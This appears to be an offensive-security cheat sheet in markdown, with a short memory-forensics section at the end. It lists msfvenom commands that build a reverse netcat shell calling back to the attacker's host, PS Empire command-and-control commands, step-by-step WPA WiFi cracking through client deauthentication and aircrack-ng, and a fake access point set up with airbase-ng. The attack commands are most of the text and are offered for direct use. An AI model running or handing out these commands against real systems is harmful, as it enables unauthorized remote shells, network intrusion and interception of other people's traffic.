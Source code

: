 ```sudo -l (NOTE: lists commands a user can run as root) ```

```msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R```
```msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R echo [MSFVENOM OUTPUT] > "scriptname".sh```
    
    -p = payload
    lhost = our local host IP address
    lport = the port to listen on
    R = export the payload in raw format
    

## PS Empire:

https://www.bc-security.org/post/the-empire-3-0-strikes-back
    
https://github.com/BC-SECURITY/Empire/
    
    COMMANDS:
    
        listeners
        uselistener
        uselistener {tab key}
        uselistener http
        info
        execute
        usestager {tab key}
        agents
        interact
        searchmodule
        
        
## TCPDUMP:

```sudo tcpdump ip proto \\icmp -i interface```
    
## WIFI:

**Crack Wifi Password:**
	
	airmon-ng start wlan0
	airodump-ng mon0
	airodump-ng -c (channel) --bssid (bssid) -w /root/Desktop/ (monitor interface)
	aireplay-ng -0 2 -a (router bssid) -c (client station number) mon0
	aircrack-ng -a2 -b (router bssid) -w (path to wordlist) /Root/Desktop/*.cap

**Create a Fake Network:**
	
	airmon-ng
	airmon-ng start wlan0
	airodump-ng mon0
	airbase-ng -a (router BSSID) --essid "(network name)" -c (channel) mon0
	iwconfig wlan0 txpower 27

    
## Memory DFIR:
### Tools:
**FTK Imager** - https://accessdata.com/product-download/ftk-imager-version-4-2-0
**Redline** - https://www.fireeye.com/services/freeware/redline.html
**DumpIt.exe**
**win32dd.exe / win64dd.exe**
        
Offline machines, however, can have their memory pulled relatively easily as long as their drives aren't encrypted. 
```